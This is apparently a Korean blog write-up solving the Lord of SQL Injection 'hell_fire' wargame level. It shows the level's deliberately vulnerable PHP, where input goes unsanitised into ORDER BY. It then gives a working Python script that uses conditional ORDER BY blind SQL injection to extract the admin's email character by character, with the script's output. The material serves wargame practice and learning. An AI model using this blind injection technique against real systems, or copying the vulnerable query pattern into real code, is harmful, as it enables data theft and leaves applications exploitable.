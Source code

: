 ```yaml
---
layout: post
title: ! "[Lord of SQL Injection] LoS - hell_fire 문제풀이"
excerpt_separator: <!--more-->
tags:
  - Write-up
  - Lord of SQL Injection
---
```


이번 문제에는 위에 갑자기 표가 나온다.  

그리고 `pw`를 맞추는게 아니라 이번에는 `email` 주소를 알아야 한다.  

<!--more-->

코드는 다음과 같다.  

```php
------------------------------------------------------------------------------------------
query : select id,email,score from prob_hell_fire where 1 order by
------------------------------------------------------------------------------------------

<?php
  include "./config.php";
  login_chk();
  dbconnect();
  if(preg_match('/prob|_|\.|proc|union/i', $_GET[order])) exit("No Hack ~_~");
  $query = "select id,email,score from prob_hell_fire where 1 order by {$_GET[order]}";
  echo "<table border=1><tr><th>id</th><th>email</th><th>score</th>";
  $rows = mysql_query($query);
  while(($result = mysql_fetch_array($rows))){
    if($result['id'] == "admin") $result['email'] = "**************";
    echo "<tr><td>{$result[id]}</td><td>{$result[email]}</td><td>{$result[score]}</td></tr>";
  }
  echo "</table><hr>query : <strong>{$query}</strong><hr>";

  $_GET[email] = addslashes($_GET[email]);
  $query = "select email from prob_hell_fire where id='admin' and email='{$_GET[email]}'";
  $result = @mysql_fetch_array(mysql_query($query));
  if(($result['email']) && ($result['email'] === $_GET['email'])) solve("hell_fire");
  highlight_file(__FILE__);
?>
```

코드를 살펴보면 내가 입력한 값은 `order by` 뒤에 들어간다.  

그리고 `id, email, score`를 추출 하는데, 이 때 `admin`의 `email` 주소는 `**************`로 처리된다.  

쿼리문 위에는 표가 나타나는데, 형태는 다음과 같다.  

|id|   |email|   |score|
|---|---|---|---|---|

일단 무슨 값이 저장되어 있는지 확인하기 위해서, `?order=id`를 입력해 보았다.  

그랬더니 표에 다음과 같이 데이터가 나왔다.  

|id|   |email|   |score|
|---|---|---|---|---|
|admin|   |**************|   |200|
|rubiya|   |rubiya805@gmail.cm|   |100|

그래서 문제를 어떻게 풀어야하는지 고민하다가, `order by` 뒤에 `if`문을 사용할 수 있다는 사실을 깨달았다.  

내가 처음에 생각 한 방법은, `?order=if(id='admin' and length(email)>0, score, id)`를 쿼리스트링으로 넘겨주는 것이었다.  

그럼 쿼리문이 아래와 같이 완성된다.  

```
select id,email,score from prob_hell_fire where 1 order by if(id='admin' and length(email)>0, score, id)
```

그렇다면 만약 `id`가 `admin`이고, 그 `email`의 길이가 `0`보다 크다면 조건이 참이기 때문에 `score`를 기준으로 정렬 할 것이고, 아니라면 `id`를 기준으로 정렬 할 것이라고 생각했다.  

그럼 참이라면 `rubiya` 행이, 거짓이라면 `admin`의 행이 위에 나타나게 될 것이다.  

실제로 내가 데이터베이스에서 테스트 해 보면 정상적으로 실행 됬었다.  

그런데 문제에서는 그게 안됬다.  

`id`를 `rubiya`로 두고 테스트를 할 때는 제대로 참, 거짓에 따라 `score` 혹은 `id`를 기준으로 정렬했다.  

그런데 `id='admin'`으로 두고 테스트 하면 무조건 `admin`인 행이 위에 나온다.  

왜 때문인지 모르겠다.  

그리고 또 한가지 이상한 점이 있는데, 쿼리스트링으로 `?order=if(id='admin' and length(email)>0, score, 9999)`를 넘겨주면 일단 참, 거짓 반응을 구분할 수 있다.  

하지만 `참`일 때 `score`를 기준으로 정렬하는게 아니라, `거짓`일 때 `score`를 기준으로 정렬을 해 조건이 맞지 않으면 `rubiya`가 위에 나왔다.  

얘도 왜그러는지 모르겠다...ㅎ  

그런데 어쨌든 참, 거짓에 따라 결과가 구분이 되길래 아래와 같이 코드를 짜서 돌려 보았다.  

만약 값이 참이라면 `admin` 행이, 거짓이라면 `rubiya` 행이 위에 나와서, `admin` 행이 위에 나온다면 그 값을 뽑아오게 했다.  

```python
import urllib2
import urllib
import requests

flag = ""
length = 0

url = "http://los.rubiya.kr/hell_fire_309d5f471fbdd4722d221835380bb805.php?order="
session = dict(PHPSESSID = "YOUR SESSION ID")

print "[+] Start"

print "[+] Find length of the password"

for i in range(0, 30):
	try:
		query = url + "if((id='admin' and length(email)=" + str(i) + "), score, 9999)"
		r = requests.post(query, cookies=session)
	except:
		print "[-] Error occur"
		continue
	if '<td>200</td></tr><tr><td>rubiya</td>' in r.text:
		length = i
		break

print "[+] Found length : ", length

print "[+] Find password"

for j in range(1, length + 1):
	for i in range(33, 128):
		try:
			query = url + "if((id='admin' and ord(substr(email, " + str(j) + ", 1))=" + str(i) + "), score, 9999)"
			r = requests.post(query, cookies=session)
		except:
			print "[-] Error occur"
			continue

		if '<td>200</td></tr><tr><td>rubiya</td>' in r.text:
			flag += chr(i)
			print "[+] Found " + str(j), ":", flag
			break

print "[+] Found password : ", flag
print "[+] End"
```

그랬더니 소스코드가 정상적으로 실행되서 문제를 풀 수 있었다.  

```
$ python ex.py 
[+] Start
[+] Find length of the password
[+] Found length :  28
[+] Find password
[+] Found 1 : a
[+] Found 2 : ad
[+] Found 3 : adm
[+] Found 4 : admi
[+] Found 5 : admin
[+] Found 6 : admin_
[+] Found 7 : admin_s
[+] Found 8 : admin_se
[+] Found 9 : admin_sec
[+] Found 10 : admin_secu
[+] Found 11 : admin_secur
[+] Found 12 : admin_secure
[+] Found 13 : admin_secure_
[+] Found 14 : admin_secure_e
[+] Found 15 : admin_secure_em
[+] Found 16 : admin_secure_ema
[+] Found 17 : admin_secure_emai
[+] Found 18 : admin_secure_email
[+] Found 19 : admin_secure_email@
[+] Found 20 : admin_secure_email@e
[+] Found 21 : admin_secure_email@em
[+] Found 22 : admin_secure_email@ema
[+] Found 23 : admin_secure_email@emai
[+] Found 24 : admin_secure_email@emai1
[+] Found 25 : admin_secure_email@emai1.
[+] Found 26 : admin_secure_email@emai1.c
[+] Found 27 : admin_secure_email@emai1.co
[+] Found 28 : admin_secure_email@emai1.com
[+] Found password :  admin_secure_email@emai1.com
[+] End
```

이 이메일 주소를 아래와 같이 쿼리스트링으로 넘겨주었더니 문제를 풀 수 있었다.  

```
?email=admin_secure_email@emai1.com
```

근데 왜 처음에 생각한 방법이 먹히지 않는지, 왜 거짓일 때 `score`를 기준으로 정렬하는지는 아직도 모르겠다.  

나중에 알게된다면 정리 해 둬야겠다.  

```php
-----------------------------------------------------------------------------------
query : select id,email,score from prob_hell_fire where 1 order by
-----------------------------------------------------------------------------------

HELL_FIRE Clear!
<?php
  include "./config.php";
  login_chk();
  dbconnect();
  if(preg_match('/prob|_|\.|proc|union/i', $_GET[order])) exit("No Hack ~_~");
  $query = "select id,email,score from prob_hell_fire where 1 order by {$_GET[order]}";
  echo "<table border=1><tr><th>id</th><th>email</th><th>score</th>";
  $rows = mysql_query($query);
  while(($result = mysql_fetch_array($rows))){
    if($result['id'] == "admin") $result['email'] = "**************";
    echo "<tr><td>{$result[id]}</td><td>{$result[email]}</td><td>{$result[score]}</td></tr>";
  }
  echo "</table><hr>query : <strong>{$query}</strong><hr>";

  $_GET[email] = addslashes($_GET[email]);
  $query = "select email from prob_hell_fire where id='admin' and email='{$_GET[email]}'";
  $result = @mysql_fetch_array(mysql_query($query));
  if(($result['email']) && ($result['email'] === $_GET['email'])) solve("hell_fire");
  highlight_file(__FILE__);
?>
```

`HELL_FIRE Clear!!`
